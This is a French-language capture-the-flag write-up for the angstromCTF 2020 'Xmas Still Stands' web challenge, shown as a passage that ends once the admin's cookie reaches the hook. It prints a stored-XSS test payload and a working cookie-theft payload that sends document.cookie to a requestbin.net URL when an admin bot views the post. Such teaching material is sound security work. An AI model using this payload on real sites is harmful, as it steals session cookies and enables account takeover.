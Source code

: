 ## Xmas Still Stands
> **DESCRIPTION**: You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?

Nous sommes redirigés vers un site visant à détruire Noël! Le site est composé de **4** onglets:
* **Home** -> Un simple message expliquant l'intérêt du site
* **Post** -> Une zone de texte permettant de donner des idées sur comment ruiner Noël
* **Report** -> Ici, nous pouvons renseigner l'ID d'un post à un administrateur afin qu'il aille en vérifier son contenu
* **Admin** -> Page d'administration inaccessible sans le cookie administrateur

Tout de suite, je pense à une XSS où il va falloir voler le cookie de l'administrateur. Pour ce faire, il faut trouver où est situé la XSS. Avec un simple payload `<img src=x onerror=alert('XSS');>` dans la zone de texte de l'onglet **Post**.  

![Challenge](/img/angstrom_2020_xmas_xss.png){: .center-image}
Sans surprise, l'alert apparaît.

Pour récupérer le cookie, il va falloir un hook sur lequel effectuer une requête contenant le cookie de l'administrateur. Pour cela, j'ai utilisé [requestbin](http://requestbin.net/).  
Le payload est triviale : 
```javascript
<img src=x onerror="this.src='http://requestbin.net/r/xxxxxxxx/?'+document.cookie; this.removeAttribute('onerror');">`.  
```
Une fois le post envoyé, on récupère son ID et on la renseigne dans l'onglet **Report** afin qu'un administrateur vienne jeter un œil à notre post. On attend quelques secondes et une requête est effectuée sur notre hook, avec dans l'URL, le **nom** et la **valeur** du cookie.  
